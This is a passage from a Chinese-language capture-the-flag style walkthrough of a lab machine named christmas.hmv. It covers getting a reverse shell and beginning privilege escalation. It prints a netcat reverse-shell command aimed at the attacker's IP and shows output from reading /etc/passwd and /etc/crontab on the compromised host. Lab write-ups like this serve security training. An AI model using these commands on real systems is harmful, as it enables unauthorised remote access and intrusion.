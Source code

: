 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019329.png" alt="image-20240402194847216" style="zoom:50%;" />

下面还有但是我没加上去了，反弹shell：

```bash
nc -e /bin/bash 172.20.10.8 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019330.png" alt="image-20240402195221524" style="zoom:33%;" />



<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404022019331.png" alt="image-20240402195233488" style="zoom:33%;" />

## 提权

### 信息搜集

```bash
(remote) www-data@christmas.hmv:/var/www/html/webid/admin$ cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:103:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
ftp:x:104:112:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
mysql:x:105:113:MySQL Server,,,:/nonexistent:/bin/false
mr-jack:x:1000:1000::/home/mr-jack:/bin/zsh
(remote) www-data@christmas.hmv:/var/www/html/webid/admin$ cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
cat: /etc/cron.weekly: Is a directory
cat: /etc/cron.yearly: Is a directory
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
```